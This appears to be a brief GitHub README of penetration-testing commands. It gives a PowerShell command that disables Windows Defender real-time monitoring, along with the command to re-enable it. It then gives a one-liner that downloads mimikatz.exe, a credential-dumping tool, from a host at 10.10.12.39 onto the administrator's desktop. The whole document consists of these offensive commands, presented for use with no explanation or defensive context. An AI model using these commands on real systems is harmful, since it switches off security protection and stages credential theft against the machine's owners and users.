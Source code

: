 # praia_essential_commands
Command for pentest

# disable Windows Defender on Windows 10 using PowerShell
#### Fire up a PowerShell window as administrator and run the following command:

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

#### Just set the DisableRealTimeMonitoring back to false to re-enable the real-time monitoring within Defender.

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $false


# File transfer

PS C:\>  powershell.exe wget http://10.10.12.39/mimikatz.exe -outfile C:\users\administrator\desktop\mimikatz.exe
